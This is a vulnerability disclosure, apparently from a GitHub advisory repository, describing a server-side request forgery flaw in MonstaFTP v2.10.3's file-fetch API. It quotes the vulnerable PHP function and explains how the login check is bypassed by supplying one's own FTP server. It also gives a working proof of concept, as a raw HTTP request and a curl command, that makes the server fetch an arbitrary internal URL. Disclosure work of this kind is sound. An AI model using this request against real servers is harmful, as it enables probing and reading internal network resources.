 # SSRF vulnerability in `performFetchRequest` Function of `HTTPFetcher.php` File (MonstaFTP v2.10.3 version)

## 0x01 Affected version

vendor:  https://www.monstaftp.com/

version:  v2.10.3

php version: 7.2.x

## 0x02 Vulnerability description

The vulnerable code is located in the `performFetchRequest` function of the `application/api/file_fetch/HTTPFetcher.php` file, which does not perform sufficient checksum on the source parameter, leading to a taint from the `$context['source']` variable and enters the tainted function `curl_setopt`, which sends a request to the URL specified by the source parameter after the `curl_exec` function is executed, eventually leading to an SSRF vulnerability.

Although the vulnerability requires login authentication verification, but because the FTP/SFTP login here is able to login to our own FTP server, so the login field can pass the verification as long as it is set, so as to take advantage of the SSRF vulnerability. So it is equivalent to pre-authentication SSRF, which is more harmful!

```php
private function performFetchRequest() {
    $fp = fopen($this->tempSavePath, 'w+');
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $this->fetchRequest->getURL());
    curl_setopt($ch, CURLOPT_FILE, $fp);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
    curl_setopt($ch, CURLOPT_HEADERFUNCTION, array(&$this->fetchRequest, 'handleCurlHeader'));
    $success = @curl_exec($ch);
    $curlError = @curl_error($ch);
    $effectiveUrl = curl_getinfo($ch, CURLINFO_EFFECTIVE_URL);
    $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);

    curl_close($ch);
    fclose($fp);
```

Because the `source` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows

```
POST /application/api/api.php HTTP/1.1
Host: 172.16.119.130
Content-Length: 275
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://172.16.119.130
Referer: http://172.16.119.130/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

request={"connectionType":"sftp","configuration":{"host":"172.16.119.130","remoteUsername":"zero","initialDirectory":"/tmp/","authenticationModeName":"Password","password":"123456","port":22},"actionName":"fetchRemoteFile","context":{"source":"http://172.16.119.1/flag.txt"}}
```

![image-20220524105307486](./MonstaFTP_v2_10_3_SSRF.assets/image-20220524105307486.png)



You can also use the following curl command to verify the vulnerability

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.130' -H $'Accept: application/json, text/plain, */*' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Connection: close' -H $'Content-Length: 275' \
    --data-binary $'request={\"connectionType\":\"sftp\",\"configuration\":{\"host\":\"172.16.119.130\",\"remoteUsername\":\"zero\",\"initialDirectory\":\"/tmp/\",\"authenticationModeName\":\"Password\",\"password\":\"123456\",\"port\":22},\"actionName\":\"fetchRemoteFile\",\"context\":{\"source\":\"http://172.16.119.1/flag.txt\"}}' \
    $'http://172.16.119.130/application/api/api.php'
```

## 0x03 Acknowledgement

Ez Wang, W Xie, Yf Gao, Zh Wang, Lj Wu